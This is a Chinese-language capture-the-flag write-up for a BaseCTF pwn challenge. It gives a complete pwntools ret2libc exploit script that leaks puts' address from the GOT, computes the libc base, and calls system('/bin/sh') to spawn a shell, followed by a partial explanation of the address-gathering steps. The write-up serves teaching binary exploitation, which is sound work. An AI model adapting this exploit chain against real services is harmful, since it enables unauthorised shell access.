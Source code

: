# Basectf pwn方向“她与你皆失”

`ret2libc`,新手上路的第一块绊脚石，这道题是很标准的两步走，先泄露libc再getshell

```python
from pwn import *
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = ELF('libc.so.6')
p = process('./pwn')
elf = ELF('./pwn')

main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a

p.recv()

payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendline(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
print(hex(libc_base))

system = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search(b'/bin/sh'))

payload2 = b'a'*(0xa+8)
payload2+=p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)

p.sendline(payload2)
p.interactive()
```

## 加载二进制文件和动态链接库

`libc = ELF('libc.so.6')`这一段是用来加载动态链接库libc.so.6，用于后续获取libc函数的地址

`elf = ELF('./pwn')`用来加载本地的二进制文件，用于获取程序中的地址信息

## 获取地址

```python
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a
```

